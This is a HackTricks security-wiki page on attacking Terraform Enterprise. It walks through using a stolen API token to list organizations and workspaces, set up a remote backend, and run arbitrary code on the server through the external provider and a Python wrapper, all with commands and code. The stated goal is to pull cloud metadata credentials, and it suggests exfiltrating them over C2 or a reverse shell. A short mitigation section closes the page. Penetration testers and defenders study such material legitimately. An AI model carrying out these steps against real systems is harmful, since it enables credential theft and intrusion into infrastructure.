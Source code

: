 # Terraform Enterprise Security

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

[**Terraform Enterprise**](https://www.terraform.io/enterprise) **is a self-hosted version of Terraform Cloud**, allowing organizations to maintain their own private instance of Terraform. If it's **deployed** to a **VM** from a **cloud** provider we may be able to access the **instance metadata** service and leverage those credentials for further attacks.

"By default, Terraform Enterprise **does not prevent Terraform operations from accessing the instance metadata service**, which may contain IAM credentials or other sensitive data" ([source](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access))

{% hint style="info" %}
While the focus of this article is on targeting the metadata service, it is worth noting that gaining code execution inside a Terraform run may provide other avenues for attack. For example, environment variables could be leaked which may contain sensitive credentials.
{% endhint %}

## Remote (Code) Execution <a href="#remote-code-execution" id="remote-code-execution"></a>

For many engineers, their first experience with Terraform was locally on their workstations. When they invoked a `terraform apply` or `terraform plan` all of that activity took place on the local machine (reaching out to cloud APIs, tracking state, etc.)

An exciting feature of Terraform Enterprise (and Cloud) is the idea of [**Remote Execution**](https://www.terraform.io/cloud-docs/overview#remote-terraform-execution), wherein all those **operations take place server-side**. In **Terraform Cloud the execution takes place in "disposable virtual machines"**. In [**Terraform Enterprise**](https://www.terraform.io/enterprise/install/interactive/installer#alternative-terraform-worker-image) **however, it takes place in "disposable Docker containers".**

This introduces an interesting opportunity; If you compromise credentials to initiate a `plan` or `apply` operation (or otherwise have access to them. I.E insider threat) we can **execute code in a Docker container on the Terraform Enterprise server**.

{% hint style="info" %}
It is possible to disable Remote Execution via a configuration however this is [discouraged](https://www.terraform.io/cloud-docs/run#disabling-remote-operations). "Many of Terraform Cloud's features rely on remote execution, and are not available when using local operations. This includes features like Sentinel policy enforcement, cost estimation, and notifications."
{% endhint %}

### Walkthrough <a href="#walkthrough" id="walkthrough"></a>

#### Acquire a Terraform API Token <a href="#acquire-a-terraform-api-token" id="acquire-a-terraform-api-token"></a>

To begin, you'll first need to 'acquire' a [Terraform API Token](https://www.terraform.io/cloud-docs/users-teams-organizations/api-tokens). These **tokens** can be identified by the **`.atlasv1.` substring** in them.

As for where you would get one, there are a number of possible locations. For example, developer's may have them locally on their **workstations** in `~/.terraform.d/`, you may find them in CI/CD **pipelines**, inappropriately stored in **documentation**, pull them from a secrets vault, create one with a developer's stolen credentials, etc.

#### Identify the Organization and Workspace Names <a href="#identify-the-organization-and-workspace-names" id="identify-the-organization-and-workspace-names"></a>

With access to a valid API token, we now need to **find an Organization and Workspace** we can use to be nefarious. The good news is that this information is queryable using the token. We can use a tool such as [jq](https://stedolan.github.io/jq/) to parse and display the JSON.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations | jq
```

![](<../../.gitbook/assets/image (77).png>)

Next, we need to identify a [workspace](https://www.terraform.io/cloud-docs/api-docs/workspaces) we can use. Again, this can be quereyed using the organization `id` we gathered in the previous step.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations/<Organization ID>/workspaces | jq
```

![](<../../.gitbook/assets/image (11) (1).png>)

#### Configure the Remote Backend <a href="#configure-the-remote-backend" id="configure-the-remote-backend"></a>

Now that we have the organization and workspace id's from the previous step, we can **configure the remote backend**. To do this, you can use [this example](https://github.com/hashicorp/tfc-getting-started/blob/main/backend.tf) as a template with one exception. We will **add a `hostname`** value which is the hostname of the Terraform Enterprise instance. You can store this in a file named `backend_config.tf`.

{% code title="backend_config.tf" %}
```json
terraform {
  backend "remote" {
    hostname = "{{TFE_HOSTNAME}}"
    organization = "{{ORGANIZATION_NAME}}"

    workspaces {
      name = "{{WORKSPACE_NAME}}"
    }
  }
}
```
{% endcode %}

#### Initialize the Backend <a href="#initialize-the-backend" id="initialize-the-backend"></a>

With the backend configuration file created we can initialize the backend with the following command.

```bash
terraform init --backend-config="token=$TFE_TOKEN"
```

If everything has worked as it should, you should get a `Terraform has been successfully initialized` notification. To test this, you can perform a `terraform state list` to list the various state objects.

#### Executing Code <a href="#executing-code" id="executing-code"></a>

There are several ways this can be done (such as using a [local-exec provisioner](https://www.terraform.io/language/resources/provisioners/local-exec)) however, for our purposes we will be using the [External Provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

"_`external` is a special provider that exists to provide an interface between Terraform and external programs_".

What this means is that we can **execute code during the Terraform `plan`** or `apply` operations by specifying a program or script to run.

To do this, we will create an `external provider` in our existing `backend_config.tf` file (if you already have an existing Terraform project you can add this block to those existing files).

{% code title="backend_config.tf" %}
```bash
...

data "external" "external_provider" {
    program = ["python3", "wrapper.py"]
}

output "external_provider_example" {
    value = data.external.external_provider
}
```
{% endcode %}

You may be wondering what the `wrapper.py` file is. In order to use the `external` provider, we must "implement a specific protocol" ([source](https://registry.terraform.io/providers/hashicorp/external/latest/docs)), which is JSON. To do this, we will wrap the result of the code execution in JSON so it can be returned.

{% hint style="info" %}
The wrapper script is not strictly required if you aren't interested in getting the output. If your goal is simply to execute a C2 payload, you can include the binary in the project directory and then execute it.

Check for [**more payloads here**](./#using-an-external-provider).
{% endhint %}

Wrapping the output in JSON allows us to get the **response output**.

Our wrapper script looks like the following (feel free to change to your needs).

{% code title="wrapper.py" %}
```python
import json
import os

stream = os.popen('id')
output = stream.read()
result = { "result" : output }

print(json.dumps(result))
```
{% endcode %}

#### Terraform Plan <a href="#terraform-plan" id="terraform-plan"></a>

Now that the wrapper script is created (and modified), we can execute code via **`terraform plan`**. This is a **non-destructive action**, which will evaluate our local configuration vs's the remote state. In addition, it will **execute our remote provider and return the result to us**.

![](<../../.gitbook/assets/image (58).png>)

{% hint style="warning" %}
Upon executing `terraform plan` you may encounter errors for various reasons depending upon the remote state. Those errors will need to be handled on a case by case basis. Typically this involves modifying your `.tf` files to suit the remote state. This can typically be figured out based on the results of `terraform state pull`.

From here, we can modify our wrapper script to do a variety of things such as (the purpose of this article) reaching out to the metadata service and pulling those credentials.
{% endhint %}

{% hint style="info" %}
The results of this run are logged elsewhere. Please do not leak secrets or other sensitive information to parties who do not have a need for the information. A more efficient method would be to use a C2 platform such as [Mythic](https://docs.mythic-c2.net/) (or even just a TLS encrypted reverse shell) to exfiltrate the credentials.
{% endhint %}

## Attack Prevention <a href="#attack-prevention" id="attack-prevention"></a>

It is worth noting that there are two potential methods to mitigate this attack. The first is the configuration of [restrict\_worker\_metadata\_access](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access) in the Terraform Enterprise settings. This is **not** the default, meaning that out of the box Terraform operations have access to the metadata service and its credentials.

The second option would depend upon the cloud provider, but options to harden or secure the Metadata Service can also be used. For example, [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) in an AWS situation would prevent the [Docker container from reaching the Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro\_metadata\_service/).

Note

Nothing should prevent these two methods from working at the same time. It is a good idea to require IMDSv2 of all EC2 instances in your environment.

## References

* [https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/](https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
